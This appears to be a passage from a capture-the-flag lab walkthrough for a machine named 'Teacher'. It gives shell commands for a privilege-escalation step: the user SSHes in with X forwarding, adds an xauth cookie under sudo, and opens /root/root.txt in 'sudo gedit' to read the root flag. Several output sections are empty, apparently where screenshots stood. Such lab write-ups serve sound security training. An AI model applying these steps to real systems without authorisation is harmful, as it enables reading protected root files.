



5.2 xauth (Second flag)
1. Run the following commands on your Kali Machine.
$ ssh -X mrteacher@192.168.12.65
mrteacher@Teacher:~$ xauth list $DISPLAY
Output:

You'll get a cookie.
mrteacher@Teacher:~$ echo $DISPLAY
Output:

mrteacher@Teacher:~$ sudo xauth add Teacher/unix:10 MIT-MAGIC-COOKIE-1 89bd3adc2a4b597cb7adfd584d8bcc8f
mrteacher@Teacher:~$ export DISPLAY=localhost:10.0
2. Open “gedit” with sudo.
mrteacher@Teacher:~$ sudo gedit
3. Open “/root/root.txt” on “gedit”. You'll see the flag.
Output:
